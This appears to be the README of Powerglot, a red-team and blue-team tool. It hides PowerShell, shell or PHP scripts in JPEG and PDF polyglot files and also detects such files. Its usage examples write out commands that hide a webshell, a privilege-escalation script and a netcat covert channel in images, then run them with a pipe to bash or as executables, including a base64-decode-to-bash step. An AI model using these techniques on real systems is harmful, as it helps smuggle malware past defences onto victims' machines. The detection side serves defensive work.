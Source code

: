 # Powerglot

Powerglot encodes several kind of scripts using polyglots, for example, offensive powershell scripts. It is not needed a loader to run the payload.

In red-team exercises or offensive tasks, masking of payloads is usually done by using steganography, especially to avoid network level protections, being one of the most common payloads scripts developed in powershell. Recent malware and APTs make use of some of these capabilities: APT32, APT37, Ursnif, Powload, LightNeuron/Turla, Platinum APT, Waterbug/Turla, Lokibot, The dukes (operation Ghost), Titanium, etc.

Powerglot is a multifunctional and multi-platform attack and defense tool based on polyglots. Powerglot allows to mask a script (powershell, shellscripting, php, ...) mainly in a digital image, although other file formats are in progress. Unlike the usual offensive tools or malware, Powerglot does not need any loader to execute the "information hidden", minimizing the noise on the target system.

PowerGlot has a clear utility in offensive tasks but it is also defined as a discovery and blue team tool. To our knowledge, it is the first general and complete open-source tool that allows to search for the presence of masked information with polyglots, information that could be useful to achieve persistence in a system or to hide malware (stego-malware, privilege escalation, lateral movement, reverse shell, etc.)

Features:
- Encode powershell/shell script/php/.. in a polyglot image. It is not necessary a loader to recover/execute the hidden information (payload). PowerGlot works with several formats. Mainly, JPEG and PDF format. Other formats are in progress.

- Powerglot is a complete open-source tool to detect (malicious) polyglots, specially the result of some public tools as Truepolyglot or stegoSploit. We works in several formats: JPEG, PNG, GIF, BMP, ZIP, PDF, MP3, etc.

# Installation
```
# git clone https://github.com/mindcrypt/powerglot
# python3 powerglot
```
# Usage & Parameters

Some examples to hide payloads using polyglots with Powerglot
```
# Example 1 - Hiding a powershell/php/shell script in a JPEG image

# python3 powerglot.py -o payload.ps1 cat.jpg cat-hidden1.jpg
# python3 powerglot.py -o webshell.php cat.jpg cat-hidden2.jpg
# python3 powerglot.py -o shell.sh cat.jpg cat-hidden3.jpg
```
```
# Example 2 - Hiding a shell script (linenum.sh) for privilege escalation "hidden" in a JPEG image

# python3 powerglot.py -o linenum.sh cat.jpg cat-linenum.jpg
# file cat-linenum.jpg (It is a valid JPEG file)
# feh cat-lineum.jpg (The image is properly showed in an image viewer)

# We can execute the script in several ways:

a) cat cat-linenum | bash
b) chmod +x cat-linenum.jpeg; ./cat-linenum.jpeg

```
```
# Example 3 - Hiding a cover-channel wiht netcat in a JPEG image

# Attacker
# echo "nc 127.0.0.1 4444" > netcat.sh
# python3 powerglot.py -o netcat.sh cat.jpeg cat-netcat.jpeg
# nc -nvlp 4444

#Victim
# chmod +x cat-netcat.jpg | ./cat-netcat.jpg
```
![Screenshot](nc-polyglot.png)
```
# Example 4 - Polyglot in PDF (Ej-linenum.sh)
# Create b64.sh with your favourite payload
base64 Linenum.sh -w 0 > b64.sh
# Edit b64.sh
echo "code in b64.sh" | base64 -d | bash;

# python3 powerglot -o b64.sh sample.pdf test.pdf
# file test.pdf
# xpdf test.pdf

# Execute payload
# cat test.pdf | bash or chmod +x test.pdf; ./test.pdf
```
```
# Example 5 - Powershell in JPEG (polyglot)
# python3 powerglot.py -o script.ps1 cat.jpeg cat-ps.jpeg
# file cat-ps.jpeg
# feh cat-ps.jpeg

# Execute payload (example)
# cat cat-ps.jpeg | pwsh

PS /home/alfonso/PowerGlot/POWERSHELL> get-process;<#hola <# mundo#>

 NPM(K)    PM(M)      WS(M)     CPU(s)      Id  SI ProcessName
 ------    -----      -----     ------      --  -- -----------
      0     0,00       2,70       0,00     830 829 (sd-pam)
      0     0,00       0,00       0,00      75   0 acpi_thermal_pm
      0     0,00       4,80       0,00    1217 854 agent
      0     0,00       1,70       0,00     748 748 agetty
      0     0,00      40,77       1,01    1198 854 applet.py
      0     0,00       6,29       0,00     938 938 at-spi-bus-launcher
      0     0,00       6,61       5,64     953 938 at-spi2-registryd
      0     0,00       0,00       0,00     131   0 ata_sff
      0     0,00       1,77       0,00    8906 …78 atom
      0     0,00     218,81     585,95    8908 …78 atom
      0     0,00     236,18     176,24    8947 …78 atom
      0     0,00     142,14       2,51    9009 …78 atom
      0     0,00      81,54       3,32    8932 …78 atom --type=gpu-process --enable-features=SharedArrayBuffer -…
      0     0,00      39,44       0,01    8910 …78 atom --type=zygote --no-sandbox
      0     0,00       5,62       0,11    1370 …70 bash
      0     0,00       5,36       0,66    5278 …78 bash
      0     0,00       6,34       1,48    6778 …78 bash
      0     0,00       0,00       0,00      68   0 blkcg_punt_bio
      0     0,00      46,73       2,20    1199 854 blueman-applet
      0     0,00      50,25       1,64    1301 854 blueman-tray
```
Some examples to detect polyglots in our filesystem
```
#python3 powerglot.py -d ./
--= [Detecting polyglots] --=
..............................................................
[Suspicious file]-[ ./cat-end-extra2.jpg ]..
[Suspicious file]-[ ./cat-end-extra3.jpg ][Polyglot Stegosploit][EOF Signature: */ -->]
.................................................................................
[Suspicious file]-[ ./cat-end-extra1.jpg ]..
```

# Future work. Doing
- We are working to support different file formats for encoding information in polyglots. Currently, we support several techniques in JPEG and PDF.
- We are working to incorporate rules for the detection of polyglots in different formats. Currently, the presence of StegoSploit in JPEG files is detected (added */ --> after FFD9)

# Author & license

This project has been developed by Dr. Alfonso Muñoz and Abraham Pasamar. The code is released under the GNU General Public License v3.


